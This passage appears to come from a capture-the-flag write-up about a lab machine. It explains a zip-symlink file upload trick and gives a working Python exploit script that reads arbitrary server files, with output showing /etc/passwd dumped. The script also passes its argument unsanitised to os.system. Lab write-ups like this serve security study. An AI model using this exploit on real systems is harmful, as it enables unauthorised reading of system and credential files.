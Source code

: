 I looked on HackTricks and found that I could use the fact that the server was decompressing the zip file to get it to [read arbitrary files](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload). I had to create a ZIP file that contained a symlink to the file I wanted to read. The server would uncompress the zip file, if the symlink had the '.pdf' extension, I would get a link to it back. Reading the PDF would give me the content of the file I was trying to read.

I tried it manually and it worked. But it was tedious to use if I wanted to read multiple files. So I created a small Python script to do the work for me.

```python
#!/usr/bin/env python3

import requests
import sys
import os
import re

file_to_get = sys.argv[1]

# Create the symlink to the file to read
command = f'ln -s {file_to_get} link.pdf'
os.system(command)

# Create the zip file
os.system('zip --symlinks zip.zip link.pdf')

# Upload the zip file
proxy_servers = {
    'http': 'http://127.0.0.1:8080',
}
files = {'zipFile': open('zip.zip', 'rb')}
response = requests.post('http://target.htb/upload.php', files=files, data={'submit': True}, proxies=proxy_servers)

# Create the path to the PDF using the path in the response
response_text = response.text
path = re.search('"uploads/(.*)/link\.pdf"', response_text)[1]
url = f'http://target.htb/uploads/{path}/link.pdf'

# Read the file
response = requests.get(url)
print(response.text)

# Cleanup
os.system('rm link.pdf zip.zip')
```

I could use the script to read files on the server.

```bash
$ ./getFile.py /etc/passwd
  adding: link.pdf (stored 0%)
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```